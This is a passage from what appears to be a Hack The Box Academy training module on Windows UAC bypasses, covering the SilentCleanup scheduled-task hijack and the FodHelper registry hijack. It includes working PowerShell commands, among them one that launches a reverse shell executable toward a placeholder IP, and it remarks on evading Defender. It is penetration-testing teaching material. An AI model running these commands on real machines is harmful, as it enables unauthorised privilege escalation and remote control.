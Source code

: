 ```powershell
Set-ItemProperty -Path "HKCU:\Environment" -Name "windir" -Value "cmd.exe /K C:\Windows\Tasks\RShell.exe <IP> 8080 & REM " -Force
Start-ScheduledTask -TaskPath "\Microsoft\Windows\DiskCleanup" -TaskName "SilentCleanup"

```

![image](https://academy.hackthebox.com/storage/modules/254/2/22.png)

To clean up after the bypass, we should remove the value we set for `%windir%` with the following command:

```powershell
Clear-ItemProperty -Path "HKCU:\Environment" -Name "windir" -Force

```

#### Bypass 2: FodHelper Execution Hijack

The `FodHelper bypass` was [discovered in 2017](https://www.borncity.com/blog/2017/05/24/windows10-neue-uac-bypassing-methode-fodhelper-exe/) by a master's student. Nowadays, it is a very well-known attacker vector and `Windows Defender Antivirus` does a relatively good job of detecting it. That being said, the technique still works, and it is not so hard to avoid getting detected.

The default `Windows` program `C:\Windows\System32\fodhelper.exe` has an attribute called `AutoElevate`, which makes it so that when it is run by a user at a `medium integrity level`, it is automatically elevated to a `high integrity level`.

```powershell
PS C:\Tools\SysinternalsSuite> .\sigcheck.exe -m C:\Windows\System32\fodhelper.exe | findstr autoElevate
        <autoElevate>true</autoElevate>

```

When `FodHelper` is run, it attempts to read the value of the registry key `"HKCU\Software\Classes\ms-settings\Shell\Open\Command"`:

![image](https://academy.hackthebox.com/storage/modules/254/2/23.png)

Registry keys ending with `"Shell\Open\Command"` are used to tell `Windows` how to open various file types, so for example `GIF` files should be opened with `iexplore.exe` as is defined here:

![image](https://academy.hackthebox.com/storage/modules/254/2/25.png)

Basically, `FodHelper` tries to read `"...\ms-settings\Shell\Open\Command"` because it wants to open something using the `ms-settings` protocol, and it needs to know how. We saw in a previous screenshot that it first checked `HKCU` and then `HKCR` after the first path was not found. Since we are able to modify `HKCU`, we should be able to control the value `FodHelper` receives.

Traditionally, the bypass was to set `"HKCU\Software\Classes\ms-settings\Shell\Open\command"` to whatever command we wanted to run, however nowadays `Microsoft Defender Antivirus` will kill the process as soon as you write to this key:

```powershell
New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "cmd.exe" -Force

C:\Windows\System32\fodhelper.exe

```
